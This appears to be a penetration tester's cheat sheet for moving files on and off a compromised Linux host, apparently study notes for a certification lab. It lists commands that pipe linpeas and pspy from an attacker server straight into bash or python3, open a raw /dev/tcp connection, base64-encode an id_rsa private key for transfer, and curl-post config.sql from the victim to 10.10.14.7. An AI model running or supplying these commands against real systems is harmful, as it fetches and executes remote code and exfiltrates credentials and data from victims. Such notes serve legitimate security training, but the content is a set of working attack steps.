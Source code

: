 ## Download
#### Web Downloads
```bash
wget http://$ip/linpeas.sh -o linpeas.sh
curl http://$ip/linpeas.sh -o linpeas.sh
```

Execute in memory
```bash
wget -qO- http://$ip/pspy | python3 
curl http://$ip/linpeas.sh | /bin/bash
```
#### Bash
Connect to Target Webserver, HTTP GET Request, print response
```bash
exec 3<>/dev/tcp/$ip/80
echo -e "GET /linpeas.sh HTTP/1.1\n\n">&3
cat <&3
```
#### SSH
```bash
sudo systemctl enable ssh
sudo systemctl start ssh
netstat -lnpt
```

```bash
scp plaintext@$ip:/home/adot/opt/linpeas.sh . 
```
##### Base64 Conversion
```bash
md5sum id_rsa
cat id_rsa |base64 -w 0;echo
```

```bash
echo -n 'S0tLS1CRUdJTiBPU...' | base64 -d > id_rsa
md5sum id_rsa
```

## Upload
#### Web Upload
Setup webserver
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

mkdir https && cd https
python3 -m uploadserver 443 --server-certificate ~/server.pem
```
Upload from compromised host
```bash
curl -X POST https://10.10.14.7/upload -F 'files=@/dev/shm/config.sql'--insecure
```
##### Alternatively (stand up mini webserver on host)
```bash
python3 -m http.server
python2.7 -m SimpleHTTPServer
php -S 0.0.0.0:8000
ruby -run -ehttpd . -p8000
```
Download
```bash
wget http://$target_ip/sourcecode.zip
```
#### SSH
```bash
scp sourcecode.zip adot@$ip:/home/adot/cpts/NIX01
```